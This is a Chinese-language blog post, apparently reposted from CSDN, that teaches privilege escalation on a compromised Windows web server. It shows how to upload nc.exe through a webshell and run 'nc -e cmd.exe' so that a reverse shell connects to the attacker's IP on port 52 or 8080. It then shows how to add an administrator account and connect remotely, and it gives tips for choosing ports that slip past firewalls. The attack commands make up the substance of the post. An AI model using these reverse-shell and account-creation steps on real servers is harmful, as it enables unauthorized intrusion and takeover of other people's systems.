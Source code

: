 ```yaml
---
layout: post
category: binghe-code-hack
title: NC反弹CMDSHELL提权总结
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: NC反弹CMDSHELL提权总结
lock: need
---
```


#  NC反弹CMDSHELL提权总结

Server-U等都不可以用的情况下.  一般都可思考用此方法
 不过这种方法, 只要对方装了防火墙, 或是屏蔽掉了除常用的那几个端口外的所有端口…  那么这种方法也失效了….

1:通过shell将上传NC和CMD传到站点目录下(这里一定上传的注意权限,最好是可读写目录下)
 web目录都是有写有读的权限,我们直接传NC进去

![img](https://img-blog.csdnimg.cn/20181231145050556.jpg)



2:然后本地执行nc -vv -lp 52进行反弹

![img](https://img-blog.csdnimg.cn/20181231145122207.jpg)

3:在shell命令下执行

F:\wwwroot\img\nc.exe -e cmd上传路径 IP(外网IP) 52(这里是本机端口)

![img](https://img-blog.csdnimg.cn/20181231145154571.jpg)

4:在shell里执行命令后,马上看到本地CMS里已经反弹上去了,执行net user 也是成功.

![img](https://img-blog.csdnimg.cn/20181231145225477.jpg)

5:直接添加用户,然后远程去连接!

![img](https://img-blog.csdnimg.cn/20181231145257596.jpg)

看到添加成功,也设置为管理组了!接下来直接远程连接就OK!

不少人NC提权没有成功过，因为其中的原因是你没有降低权限，而导致了NC提权失败

**失败总结：**

1.反弹端口

网上不少文章写 反弹端口445 110 什么的，你当防火墙白痴是不是，我建议看一下端口有没有8080端口，如果没有8080端口的话，要反弹8080端口，这样被防火墙阻止的概率较小

2.降低运行权限

1.现在本地监听一个端口

```bash
nc -vv -l -p 8080 //最好是80或8080这样的端口，被防火墙拦截的几率很小。
```

2.在WebShell运行下面命令连接我们监听的端口得到CmdShell:

```bash
nc -vv IP 8080 -e C:\Documents and Settings\All  Users\Documents\cmd.exe //假设cmd.exe是上传在"C:\Documents and Settings\All  Users\Documents\"这个目录
```

## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
